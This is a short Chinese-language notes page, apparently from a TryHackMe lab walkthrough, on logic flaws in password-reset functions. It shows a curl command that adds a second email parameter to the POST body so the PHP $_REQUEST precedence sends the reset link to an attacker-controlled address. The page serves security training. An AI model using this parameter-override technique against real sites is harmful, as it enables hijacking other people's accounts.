 # 逻辑缺陷

> 逻辑缺陷是指利用应用程序在处理过程中对步骤的要求不严谨而造成的漏洞，且该漏洞的存在范围可以存在于任何位置

<figure><img src="../.gitbook/assets/Logic_Flaw.png" alt=""><figcaption></figcaption></figure>

## 配合

### 身份验证&逻辑缺陷

> 现在在我们的网站存在一个重置密码功能
>
> * 先输入电子邮箱，查看是否有该邮箱地址
> * 输入用户名，查看用户名和电子邮箱地址是否对应

{% code overflow="wrap" %}
```bash
# 这里利用的点是在 PHP 中华变量是一个数组，其中$_REQUEST包含从查询字符串和 POST 数据接收的数据。如果查询字符串和 POST 数据使用相同的键名，这个变量的应用逻辑更倾向于 POST 数据字段而不是查询字符串，所以如果我们在 POST 表单中添加另一个参数，我们可以控制在哪里重置密码电子邮件已送达
user@tryhackme$ curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
{% endcode %}
